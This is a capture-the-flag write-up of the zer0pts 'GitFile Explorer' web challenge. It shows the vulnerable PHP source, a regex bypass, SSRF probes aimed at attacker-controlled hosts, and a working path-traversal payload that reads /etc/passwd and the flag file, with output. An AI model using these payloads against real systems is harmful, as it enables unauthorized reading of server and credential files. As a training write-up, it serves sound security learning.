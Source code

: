 # GitFile Explorer

The description of the challenge says that *Read /flag.txt on the server.*

Challenge site: http://gitfile.ctf.zer0pts.com:8001/

![image](https://user-images.githubusercontent.com/31372554/159201070-6ff830dd-c0b1-4cf1-b3d2-7a80ef33f80f.png)


It looks like a simple website which allows us to *download files on GitHub/GitLab/BitBucket*

Upon clicking on the Download button, a request to  this url is made https://raw.githubusercontent.com/ptr-yudai/ptrlib/master/README.md and the response of the url is shown in the textarea.

![image](https://user-images.githubusercontent.com/31372554/159201096-4ba15386-1104-47d6-ab77-3a67e98c2b83.png)


We now have  a basic understanding of the website , let see what we can do here to read the `/flag.txt` file.

This url  is in the address bar, when we click on the *Download* button:

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

SSRF might be possible here as it is taking an url as an input and giving us back the response of the requested url.
So I changed the `service` parameter value to a domain which I have control over eg: https://en516mcx269todj.m.pipedream.net


-----------------



http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fen516mcx269todj.m.pipedream.net&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

Upon visiting the above url, the application threw an error: 

```html
<b>Deprecated</b>:  preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in <b>/var/www/html/index.php</b> on line <b>29</b><br />

```



The `preg_match` function is used for pattern matching, so there might be a check in place to validate the `service` parameter values either matches to Github/Gitlab/Bitbucket domain or not.

Then I changed the `service` parameter value to raw.githubusercontent.com.attacker.com

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com.attacker.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

And this time a different error was shown:

```html
<b>Warning</b>:  file_get_contents(): SSL operation failed with code 1. OpenSSL Error messages:
error:1416F086:SSL routines:tls_process_server_certificate:certificate verify failed in <b>/var/www/html/index.php</b> on line <b>30</b><br />
<br />
<b>Warning</b>:  file_get_contents(): Failed to enable crypto in <b>/var/www/html/index.php</b> on line <b>30</b><br />
<br />
<b>Warning</b>:  file_get_contents(https://raw.githubusercontent.com.attacker.com/ptr-yudai/ptrlib/master/README.md): Failed to open stream: operation failed in <b>/var/www/html/index.php</b> on line <b>30</b><br />

```

From this verbose error, it is clear that our input url was successfully passed to `file_get_contents` this time, this tells us that the url validation check is very weak.

-----------------------

**Looking into the source code:**


```php
<?php
function h($s) { return htmlspecialchars($s); }
function craft_url($service, $owner, $repo, $branch, $file) {
    if (strpos($service, "github") !== false) {
        /* GitHub URL */
        return $service."/".$owner."/".$repo."/".$branch."/".$file;

    } else if (strpos($service, "gitlab") !== false) {
        /* GitLab URL */
        return $service."/".$owner."/".$repo."/-/raw/".$branch."/".$file;

    } else if (strpos($service, "bitbucket") !== false) {
        /* BitBucket URL */
        return $service."/".$owner."/".$repo."/raw/".$branch."/".$file;

    }

    return null;
}

$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];

if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
?>
```

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

The `craft_url` function creates the final url which will be used later on by combining all the parameter values.It also checks the `service` parameter using `strpos` function, to see if it's contains the word github/gitlab/bitbucket 

Now this why when we put the following host in the `service` parameter raw.githubusercontent.com.attacker.com , it worked.

The returned url from `craft_url` is then stored in variable `$url`, which is again validated using `preg_match` with a regex check.

--------------


```php
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https://github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//xyz?github");
1
```

Ok we can easily bypass the check now.
Btw did you noticed the final url `https//xyz?github` , the colon is missing here after the protocol part.

If we try to pass this url to `file_get_contents` function you will get below error:

```php
php > echo file_get_contents('https//xyz?github');
PHP Warning:  file_get_contents(https//xyz?github): failed to open stream: No such file or directory in php shell code on line 1
```


*No such file or directory* ahh nice. So php treats https//xyz?github as a local filen/directory right?



Let's check what happens if we put the missing colon , will we get the same error:

```php
php > echo file_get_contents('https://xyz?github');
PHP Warning:  file_get_contents(): php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
PHP Warning:  file_get_contents(https://xyz?github): failed to open stream: php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
```

Naaaah! not the same result. This is treated as an url only.




What if we traverse back and try to read `/etc/passwd` ,spolier alert it works :)

```php
php > echo file_get_contents('https//xyz?github/../../../../etc/passwd');
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```

I saw something similar in a recently shared ctf challenge writeup  (don't remember where but), so I knew what I can read files now.

At first I was trying to solve the challenge like this:
http://gitfile.ctf.zer0pts.com:8001/?service=https//xyz?github/../../../../etc/passwd&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

But it didn't worked as the final url was : `https//xyz?github/../../../../etc/passwd/ptr-yudai/ptrlib/master/README.md` , this file/dir didn't existed.

I was focused on the `service` parameter only so I was trying to find a way to ignore rest of the path after `/etc/passwd`.But that didn't work.

```php
file_get_contents('https//xyz?github/../../../../etc/passwd<Somestring>which ignores everything after this')
```

Then after a break, I realized I just need to change the `file` parameter value to something like: `../../../../../flag.txt`

And after playing around a bit, I was able to read the flag:
Final url
http://gitfile.ctf.zer0pts.com:8001/?service=https//../../../%2523github&owner=ptr-yudai&repo=ptrlib&branch=master&file=../../../../../flag.txt


`zer0pts{foo/bar/../../../../../directory/traversal}`
